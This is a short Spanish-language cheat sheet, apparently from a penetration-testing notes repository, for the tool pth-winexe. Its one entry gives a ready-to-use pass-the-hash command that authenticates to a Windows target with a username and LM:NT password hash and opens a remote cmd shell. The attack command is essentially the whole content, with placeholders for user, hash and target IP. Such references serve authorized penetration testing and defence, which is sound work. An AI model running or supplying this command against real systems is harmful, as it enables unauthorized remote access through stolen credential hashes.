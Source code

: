 # PTH-WinExe Cheat Sheet

#### Conexión con Pass The Hash
```
pth-winexe -U <USER>%<LMHASH:NTHASH> //<IP-TARGET> cmd
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)